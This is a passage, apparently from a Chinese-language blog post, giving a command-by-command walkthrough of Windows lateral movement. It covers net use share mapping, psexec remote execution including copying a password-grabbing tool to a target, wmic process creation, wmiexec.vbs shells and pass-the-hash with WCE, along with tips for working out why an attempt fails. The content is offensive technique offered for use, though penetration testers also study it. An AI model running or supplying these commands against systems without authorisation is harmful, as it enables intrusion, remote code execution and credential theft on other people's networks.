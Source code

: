 其他命令：

```
查看所有连接
net use
删除连接
net use \\\\10.10.24.44\\share /del
映射共享磁盘到本地
net use z: \\\\IP\\c$ "密码" /user:"用户名"
删除共享映射
net use c: /del
net use \* /del
```

**at 过去后如果找不到网络路径, 则判断是目标主机已禁用 Task Scheduler 服务**

psexec 第一次运行会弹框, 输入–accepteula 这个参数就可以绕过

```
psexec.exe \\\\ip –accepteula -u username -p password program.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjNMeHLBT2gKBmGSd0IxxpcORZIWVPdymXfc3Fr5BvZkhPlUAhc9ez0Q/640?wx_fmt=png)

另外两个比较重要的参数

```
\-c <\[路径\]文件名>:拷贝文件到远程机器并运行（注意：运行结束后文件会自动删除）
-d 不等待程序执行完就返回
比如想上传一个本地的getpass到你远程连接的服务器上去:
Psexec.exe \\\\ip –u user –p pass –c c:\\getpass.exe –d
```

另外学习一波 pstools 的一些运用：http://blog.csdn.net/sysprogram/article/details/13001781

**如果出现找不到网络名，判断目标主机已禁用 ADMIN$ 共享**

**wmic net use 后**：

```
copy 1.bat \\\\host\\c$\\windows\\temp\\1.bat
wmic /node:ip /user:test /password:testtest process call create c:\\windows\\temp\\1.bat
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjafBhVQsA4o2zm79WBSO4xAmALMRJUw49hGsHQLHQZ5PlaJwQyrXaAA/640?wx_fmt=png)

ps: 如果出现 User credentials cannot be used for local connections, 应该是调用了 calc.exe 权限不够的问题 如果出现 Description = 无法启动服务，原因可能是已被禁用或与其相关联的设备没有启动，判断 WMI 服务被禁用  

**wmiexec.vbs**

```
1、半交互模式
cscript.exe //nologo wmiexec.vbs /shell ip username password
2、单命令执行
cscript.exe wmiexec.vbs /cmd ip username password "command"
3、wce\_hash注入
如果抓取的LM hash是AAD3开头的，或者是No Password之类的，就用32个0代替LM hash
wce -s hash
cscript.exe //nologo wmiexec.vbs /shell ip
```
